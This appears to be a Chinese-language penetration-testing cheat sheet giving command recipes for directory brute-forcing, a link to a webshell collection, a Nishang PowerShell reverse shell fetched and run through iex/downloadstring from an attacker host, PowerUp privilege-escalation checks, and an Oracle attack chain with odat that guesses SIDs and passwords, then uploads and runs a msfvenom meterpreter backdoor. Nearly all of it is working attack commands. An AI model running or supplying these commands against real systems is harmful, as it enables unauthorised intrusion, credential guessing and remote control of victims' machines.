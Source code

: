 # 1、web目录猜解

```bash
gobuster -w directory-list-2.3-medium.txt -t 100 -u http://10.10.10.10/
```

# 2、webshell合集

https://github.com/tennc/webshell

# 3、Nishang

powershell反弹shell

本机上执行：
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.11 -Port 443' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```
靶机上执行：

```bash
Powershell -c iex(new-object net.webclient).downloadstring('http://10.10.10.11/Invoke-PowerShellTcp.ps1’)

```

# 4、PowerUp.ps1
powershell版windows提权检测工具

```bash
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
```

# 5、Oracle数据库渗透工具
https://github.com/quentinhardy/odat

猜解sid 
```bash
 ./odat.py sidguesser -s 10.10.10.10 -p 1521
```
获得sid为TEST

猜解用户及密码
```bash
./odat.py passwordguesser -s 10.10.10.10 -p 1521 -d TEST --accounts-file accounts/user.txt
```
获得用户及密码scott/tiger

生成后门
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f exe > writeup.exe 
```
上传后门
```bash
./odat.py utlfile -s 10.10.10.10 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ writeup.exe writeup.exe
```
执行后门
```bash
./odat.py externaltable -s 10.10.10.10 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ writeup.exe
```



